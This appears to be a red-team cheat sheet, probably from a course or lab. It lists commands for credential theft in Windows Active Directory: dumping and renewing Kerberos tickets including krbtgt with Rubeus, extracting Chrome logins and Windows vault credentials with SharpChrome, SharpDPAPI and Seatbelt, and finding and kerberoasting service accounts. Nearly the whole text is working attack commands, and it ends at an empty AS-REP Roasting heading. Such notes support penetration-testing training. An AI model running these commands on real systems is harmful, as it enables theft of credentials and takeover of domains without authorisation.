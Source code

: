 
#### OPSEC Safe
Extracting tickets + renewing them
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0xd42c80 /service:krbtgt /nowrap
```

```powershell
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe describe /ticket:doIFq[...snip...]uQ09N

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe renew /ticket:doIFq[...snip...]uQ09N /nowrap
```

Browser credentials
```powershell
execute-assembly C:\Tools\SharpDPAPI\SharpChrome\bin\Release\SharpChrome.exe logins
```

Windows Credential Manager
```powershell
run vaultcmd /listcreds:"Windows Credentials" /all
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsVault
```

```powershell
execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe credentials /rpc
```

 Kerberoasting
```powershell
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe -s "(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))" --attributes cn,samaccountname,serviceprincipalname
```

```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /spn:MSSQLSvc/lon-sql-1.contoso.com:1433 /simple /nowrap

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:mssql_svc /simple /nowrap
```

AS-REP Roasting
```
```